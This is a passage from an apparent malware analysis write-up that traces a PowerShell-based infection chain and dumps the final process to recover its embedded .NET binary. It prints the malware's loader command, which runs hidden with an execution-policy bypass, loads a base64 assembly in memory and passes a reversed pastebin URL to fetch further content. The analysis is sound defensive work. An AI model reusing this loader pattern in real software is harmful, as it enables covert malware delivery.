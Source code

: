 When the “OK” button of process id 4664 is clicked, the powershell script will execute, and it will decode another powershell script, hence creating a process for it. This is the last powershell process of the malware, and it will decode the .NET binary in the script and load it into the process. In Figure 8, a full dump of the powershell process is created with id 1972 to later extract the .NET binary from the dump.

![Figure 8: Creating a full dump of the last powershell process](https://raw.githubusercontent.com/darksys0x/darksys0x.github.io/master/_posts/imgs/ff_vbs/Untitled%207.png)

*Figure 8: Creating a full dump of the last powershell process*

The powershell process can be opened in a hex editor, searching for the text “powershell.exe” will show the script, refer to Figure 9.

![Figure 9: powershell script in dump file](https://raw.githubusercontent.com/darksys0x/darksys0x.github.io/master/_posts/imgs/ff_vbs/Untitled%208.png)

*Figure 9: powershell script in dump file*

**This is the powershell script:**

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -windowstyle hidden -ExecutionPolicy Bypss -NoProfile -Command "
$LHgK = '*.NET BINARY BASE64 STRING HERE*';
[Byte[]] $fuUN = [System.Convert]::FromBase64String( $LHgK.replace('???','A') );
[System.AppDomain]::CurrentDomain.Load($fuUN).GetType('ClassLibrary3.Class1').GetMethod('Run').Invoke(
$null, [object[]] ('0/YXuZk/d/ee.etsap//:sptth'))"
```

The local variable “$LHgK” contains the base64 string of .NET binary, which allows to decode the binary, first each occurrence of “???” in the string is going to be replaced with “A” therefore, the string will be decoded by calling” *[System.Convert]::FromBase64String* ”.
